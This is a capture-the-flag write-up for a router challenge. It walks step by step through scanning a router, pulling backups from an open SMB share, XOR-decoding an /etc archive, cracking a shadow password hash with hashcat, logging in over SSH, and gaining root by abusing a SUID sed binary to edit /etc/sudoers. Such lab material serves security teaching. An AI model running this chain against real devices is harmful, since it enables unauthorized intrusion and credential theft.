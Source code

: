 ```yaml
---
layout: ctf_overview
title: Pwn2own CTF (Hacking Club, IIITH)
category: Pwn2own-CTF
date: 2024-02-11
---
```


# Writeup for Router challenge

1. Find the gateway for the router. This can be done by executing `ip a`:
    ```text
    2: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether c0:b8:83:58:de:a0 brd ff:ff:ff:ff:ff:ff
    inet 192.168.3.231/24 brd 192.168.3.255 scope global dynamic noprefixroute wlan0
       valid_lft 43158sec preferred_lft 43158sec
    inet6 fd7f:9138:f698::4cc/128 scope global dynamic noprefixroute 
       valid_lft 43158sec preferred_lft 43158sec
    inet6 fd7f:9138:f698:0:1bae:f399:1d82:be49/64 scope global noprefixroute 
       valid_lft forever preferred_lft forever
    inet6 fe80::93f0:acf3:4a79:4dac/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
    ```
    From here we can figure out that the gateway is `192.168.3.1`.
2. Now run `nmap -vvvv 192.168.3.1` to find out the services available:
    ```text
    Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-11 13:12 IST
    Initiating Ping Scan at 13:12
    Scanning 192.168.3.1 [2 ports]
    Completed Ping Scan at 13:12, 0.00s elapsed (1  total hosts)
    Initiating Parallel DNS resolution of 1 host. at    13:12
    Completed Parallel DNS resolution of 1 host. at     13:12, 0.00s elapsed
    DNS resolution of 1 IPs took 0.00s. Mode: Async     [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 13:12
    Scanning OpenWrt.lan (192.168.3.1) [1000 ports]
    Discovered open port 139/tcp on 192.168.3.1
    Discovered open port 22/tcp on 192.168.3.1
    Discovered open port 445/tcp on 192.168.3.1
    Discovered open port 80/tcp on 192.168.3.1
    Discovered open port 53/tcp on 192.168.3.1
    ```
    Here we can see that some samba ports are open, so let's try connecting via a samba client.
3. Run `smbclient -L openwrt.lan -U%` to find the shares in the samba server.
    ```text
    Sharename       Type      Comment
	---------       ----      -------
	Backups         Disk      
	IPC$            IPC       IPC Service (Samba on OpenWRT)
    ```
    Here we can see that there is a share named `Backups` which is interesting.
4. Now let's get into the samba shell using `smbclient //openwrt.lan/Backups -U root`. The password is empty. Now we can list the directories and download all the files.
    ```text
    Try "help" to get a list of possible commands.
    smb: \> dir
      .                                   D         0  Sun Feb 11 10:22:42 2024
      ..                                  D         0  Sun Feb 11 04:25:43 2024
      etc.tar.gz                          N     201256  Sun Feb 11 09:56:40 2024
      hey.txt                             N         114  Sun Feb 11 10:22:42 2024

    		19608 blocks of size 1024. 15580 blocks     available
    smb: \> get etc.tar.gz
    getting file \etc.tar.gz of size 201256 as etc. tar.gz (901.6 KiloBytes/sec) (average 901.6  KiloBytes/sec)
    smb: \> get hey.txt
    getting file \hey.txt of size 114 as hey.txt (1.    7 KiloBytes/sec) (average 692.4 KiloBytes/sec)
    smb: \> exit
    ```
5. Let's check out `hey.txt`:
    ```text
    Hey, make sure to keep the backups safe from everyone. We dont want anyone 
    to be able to read it!! Keep it safe!
    ```
    So it looks like the next stage is with `etc.tar.gz`.
6. But `tar xzf` doesn't work with the file since the file is corrupted:
    ```shell
    $ file etc.tar.gz
    etc.tar.gz: data
    ```
7. Let's find out what's going on with file using `xxd`:
    ```shell
    $ xxd etc.tar.gz | head                          Sunday 11 February 2024 01:27:07 PM
    00000000: 9f0b 8880 8080 8080 8083 6cdd fbf3    5bb6  ..........l...[.
    00000010: 366f 3f52 2740 a81d f53b a3ca fccb    4e0e  6o?R'@...;....N.
    00000020: e72e 1bba 2de7 12b4 b7ce 1b59 4df6    b890  ....-......YM...
    00000030: 89c9 2879 8a9f 261c ed3f 7bbd 809f    62db  ..(y..&..?{...b.
    00000040: 14e3 3bf7 f74d 44a2 f980 7c80 9e1c    f3f0  ..;..MD...|.....
    00000050: f088 12a4 b267 dfbd 70a6 4236 50b4    3e07  .....g..p.B6P.>.
    00000060: 2d3e 6747 122a 6952 e231 1097 c017    c4c5  ->gG.*iR.1......
    00000070: ddfc 0534 07ee 985b 62b0 4281 c2df    851e  ...4...[b.B.....
    00000080: 9775 65bb 147e ef3a 9168 7f77 7ff8    58ba  .ue..~.:.h.w..X.
    00000090: f87f af96 077a dfd6 7505 8add 8f7d afad  .....z..u....}..
    ```
8. Looks like the bytes are XOR'd with `0x80`, so let's XOR it with `0x80` to restore it:
    ```py
    with open('stage2.tar.gz', 'wb') as output:
        with open('etc.tar.gz', 'rb') as input:
            output.write(bytes([i ^ 0x80 for i in input.read()]))
    ```
9. Now `tar xzf stage2.tar.gz` will give a `etc` directory.
10. Let's check out `/etc/shadow`:
    ```text
    root:$1$PmDIQj10$LjYSCsBONVnZArWfDMpGL/:19675:0:99999:7:::
    daemon:*:0:0:99999:7:::
    ftp:*:0:0:99999:7:::
    network:*:0:0:99999:7:::
    nobody:*:0:0:99999:7:::
    ntp:x:0:0:99999:7:::
    dnsmasq:x:0:0:99999:7:::
    logd:x:0:0:99999:7:::
    ubus:x:0:0:99999:7:::
    allen:$1$okn32I0G$O0cA/T7JTiQ.I8im2lxgr0:19763:0:99999:7:::
    sshd:x:0:0:99999:7:::
    ```
11. Now cracking the password of the `allen` user using `hashcat`:
    ```shell
    $ hashcat -a 0 -m 500 '$1$okn32I0G$O0cA/T7JTiQ.I8im2lxgr0' ~/rockyou.txt
    ```
12. The password is `allen070306`:
    ```text
    $1$okn32I0G$O0cA/T7JTiQ.I8im2lxgr0:allen070306            

    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
    Hash.Target......: $1$okn32I0G$O0cA/T7JTiQ.I8im2lxgr0
    ```
13. Now we can `ssh` into the router as the `allen` user:
    ```shell
    $ ssh allen@openwrt.lan
    ```
14. Now let's try to find some privilege escalation vectors using `linpeas`. SCP the `linpeas.sh` script to the router and execute it.
    ```shell
    $ wget https://github.com/carlospolop/PEASS-ng/releases/download/20240211-db8c669a/linpeas.sh
    $ scp linpeas.sh allen@openwrt.lan:/tmp/linpeas.sh
    ```
15. From the output of linpeas we can find this interesting bit:
    ```shell
                          ╔════════════════════════════════════╗
    ══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                          ╚════════════════════════════════════╝
    ╔══════════╣ SUID - Check easy privesc, exploits and write perms
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
    strace Not Found
    -rwsr-xr-x    1 root     root      196.0K Sep 20 00:08 /overlay/upper/usr/bin/sudo  --->    check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x    1 root     root      128.3K Feb 28  2023 /overlay/upper/usr/libexec/sed-gnu (Unknown SUID     binary!)
    -rwsr-xr-x    1 root     root      196.0K Sep 20 00:08 /usr/bin/sudo  --->      check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x    1 root     root      128.3K Feb 28  2023 /usr/libexec/sed-gnu (Unknown SUID binary!)
    ```
16. You can find the odd `/usr/libexec/sed-gnu` binary with the SUID bit set. So we can execute sed with root privileges.
17. Let's run the binary to modify the `/etc/sudoers` file to give sudo access to our `allen` user:
    ```shell
    $ /usr/libexec/sed-gnu -ibak "s/### allen ALL=(ALL:ALL) NOPASSWD: ALL/allen ALL=(ALL:ALL) NOPASSWD: ALL/" /etc/sudoers
    ```
18. Now we have root access to the router via `sudo`. Challenge solved!
